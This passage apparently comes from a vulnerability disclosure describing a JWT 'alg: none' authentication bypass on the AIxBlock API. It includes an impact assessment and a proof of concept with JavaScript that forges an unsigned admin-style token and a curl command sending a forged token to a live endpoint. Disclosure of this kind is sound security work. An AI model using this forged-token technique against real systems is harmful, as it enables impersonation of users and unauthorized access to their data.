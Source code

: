 ### Attack Vector
An attacker can craft a malicious JWT token with:
- Header: `{"alg": "none", "typ": "JWT"}`
- Payload: Contains arbitrary user claims (admin privileges, target project access)
- Signature: Empty string (ignored for `none` algorithm)

## Impact Assessment

### Business Impact
- **Complete authentication bypass**: Attackers can impersonate any user
- **Unauthorized API access**: All protected endpoints become accessible
- **Privilege escalation**: Access to admin functions and sensitive data
- **Data breach**: Access to AI models, workflow data, and user information
- **Financial impact**: Potential loss of customer trust and regulatory penalties

### Technical Impact
- **Confidentiality**: Complete compromise of user data and AI models
- **Integrity**: Unauthorized modification of workflows and data
- **Availability**: Potential service disruption through malicious actions

## Proof of Concept

### Step 1: Craft Malicious Token
```javascript
// Malicious JWT with 'none' algorithm
const maliciousHeader = Buffer.from(JSON.stringify({
    "alg": "none",
    "typ": "JWT"
})).toString('base64url');

const maliciousPayload = Buffer.from(JSON.stringify({
    "id": "admin_user_123",
    "type": "USER",
    "projectId": "target_project_id",
    "platform": {
        "id": "target_platform_id"
    },
    "iat": Math.floor(Date.now() / 1000),
    "exp": Math.floor(Date.now() / 1000) + 3600
})).toString('base64url');

const maliciousToken = `${maliciousHeader}.${maliciousPayload}.`;
```

### Step 2: Use Token for API Access
```bash
curl -H "Authorization: Bearer eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJpZCI6ImFkbWluX3VzZXJfMTIzIiwidHlwZSI6IlVTRVIiLCJwcm9qZWN0SWQiOiJ0YXJnZXRfcHJvamVjdF9pZCIsInBsYXRmb3JtIjp7ImlkIjoidGFyZ2V0X3BsYXRmb3JtX2lkIn0sImlhdCI6MTY5NjU5MjAwMCwiZXhwIjoxNjk2NTk1NjAwfQ." \
     https://api.aixblock.io/v1/flows
```
